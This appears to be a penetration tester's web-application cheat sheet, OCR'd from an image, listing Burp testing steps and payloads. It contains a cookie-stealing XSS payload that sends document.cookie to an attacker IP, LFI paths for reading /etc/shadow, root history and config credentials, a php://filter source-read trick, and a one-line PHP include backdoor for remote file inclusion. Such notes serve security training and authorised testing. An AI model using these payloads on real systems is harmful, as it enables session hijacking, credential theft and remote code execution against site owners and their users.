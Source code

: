 Burp

> $ get params  
> $ post params  
> $ cookies  
> $ user agents  
> $ referrers  
> $ all the headers  
> $ change get requests to posts  
> $ take note of all error codes  
> $ fuzz parameter values, and names, etc.

Things to be on look for:

> $ Default credentials for software  
> $ SQL-injectable GET/POST params  
> $ XSS  
> Test  
> $ &lt;script&gt; alert\("Hello! I am an alert box!!"\);&lt;/script&gt;  
> $ &lt;iframe SRC="http:10.11.0.106/xss\_test.html" height = "0" width ="0"&gt;&lt;/iframe&gt;  
> Exploit  
> $ &lt;script&gt;new Image\(\).src="[http://10.11.0.106/bogus.php?output=](http://10.11.0.106/bogus.php?output=)"+document.cookie;&lt;/script&gt;  
> $ LFI/RFI through ?page=foo type params  
> LFI:  
> $ /etc/passwd \| /etc/shadow insta-win  
> $ /var/www/html/config.php or similar paths to get SQL etc creds  
> $ ?page=php://filter/convert.base64-encode/resource=../config.php  
> $ ../../../../../boot.ini to find out windows version  
> RFI:  
> $ Have your PHP/cgi downloader ready  
> $ &lt;?php include \_GET\\['inc'\\]; ?&gt; simplest backdoor to keep it dynamic without anything messing your output &gt; $ Then you can just [http://IP/inc.php?inc=http://](http://IP/inc.php?inc=http://) &gt; $YOURIP/bg.php and have full control with minimal footprint on target machine $ get phpinfo\(\)

HTTPS

> $ Heartbleed / CRIME / Other similar attacks  
> $ Read the actual SSL CERT to:  
> $ find out potential correct vhost to GET  
> $ is the clock skewed  
> $ any names that could be usernames for bruteforce/guessing

LFI Linux Files:

> $ /etc/issue  
> $ /proc/version  
> $ /etc/profile  
> $ /etc/passwd  
> $ /etc/shadow  
> $ /root/.bash\_history  
> $ /var/mail/root  
> $ /var/spool/cron/crontabs/root  
> $ /etc/sysconfig/iptables  
> $ /etc/sysconfig/ip6tables
